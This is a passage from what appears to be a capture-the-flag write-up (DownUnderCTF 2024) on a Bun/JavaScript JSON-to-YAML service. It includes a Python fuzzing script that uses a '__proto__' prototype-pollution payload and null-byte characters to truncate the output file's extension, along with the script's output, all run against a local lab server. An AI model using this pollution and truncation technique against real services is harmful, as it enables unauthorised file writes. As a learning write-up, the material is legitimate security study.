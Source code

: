 ```js
    return false;
  }
};

const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
if (convertJsonToYaml(data, outputFile)) {
    return c.json({ msg: outputFile });
} else {
    return c.json({ msg: "failed to convert JSON" }, 500);
}
```

Is it possible to end with a different extension instead of `.yaml`? If yes, where should we upload it? Let's start by fuzzing different characters that could possibly **truncate** the extension at the end.

```py
import requests

list_chars = ["1\n","2\00","3%00","4%0a","5\u0000","6\t","7\r\n"]

for i in list_chars:
    body = {"data":{"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z",
"signed.__proto__":{"outputPrefix":"hijack"}
},"signature":"718494ab34fb37e1adeea4b4c87de8feb9aa504310d8c67af693928d6377af13"}
    body["data"]["signed.__proto__"]["outputPrefix"]+=i
    r = requests.post("http://localhost:1337/convert-to-yaml",json=body)
    print(r.text)

# └─$ python3 fuzzing_chars.py
# {"msg":"hijack1\n-ffa0e9bd0fcef840.yaml"}
# {"msg":"hijack2\u0000-1ced8e4a1dce4bb4.yaml"}
# {"msg":"hijack3%00-0472e6d1353275ac.yaml"}
# {"msg":"hijack4%0a-ba07b231030f1baf.yaml"}
# {"msg":"hijack5\u0000-38aabe96b54279ac.yaml"}
# {"msg":"hijack6\t-b6d177d4927dbbee.yaml"}
# {"msg":"hijack7\r\n-b86dd8d1d1091398.yaml"}
```

The result show that `Bun` will truncate everything after the **null byte**.

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-36.png)
